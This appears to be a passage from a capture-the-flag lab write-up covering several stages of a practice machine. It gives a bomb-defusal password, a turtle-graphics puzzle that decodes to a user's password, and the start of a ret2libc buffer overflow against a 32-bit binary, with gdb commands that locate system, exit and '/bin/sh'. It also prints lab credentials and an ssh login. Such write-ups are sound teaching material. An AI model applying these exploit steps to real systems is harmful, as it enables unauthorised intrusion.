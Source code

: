 The final result is:
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
o`ekma
4 2 6 3 1 5
```

Joining the strings together doesn't form the right password. Actually the phase 4 can have multiple values and the subject tells something about inversing 2 characters in the end. After some searches (and stackoverflowteams.com/c/42network/) we find the password for the user `thor`:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

### Zaz

On the `thor` session we have a file `turtle` which is a series of instructions about movements and directions. These instructions are from a graphic library in python named `turtle`. After writing python scripts that draw these instructions we decode the word `SLASH`. </br>
We tried different hash algorithm and found the password for `zaz`:
```
echo -n "SLASH" | md5sum
ssh zaz@192.168.56.103 
password : 646da671ca01bb5d84dbb5fb2238dc8e
```  

## Buffer overflow 

On the `zaz`'s session we find the file `exploit_me` which is a 32-bit ELF file. After opening it in Ghidra we found this pseudo code:
```
bool main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```  
Our input is copied in a buffer of 140 bytes with `strcpy` making it vulnerable to buffer overflow because of the lack of size boundaries. We can overwrite the return address of the function of `main` like a `ret2libc` (system + exit + "/bin/sh").
```
gdb exploit_me
(gdb) disas main
(gdb) b 0x08048420
(gdb) r test
(gdb) info function system 
0xb7e6b060  system

(gdb) info function exit
0xb7e5ebe0  exit

(gdb) info proc map 
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so

(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58

```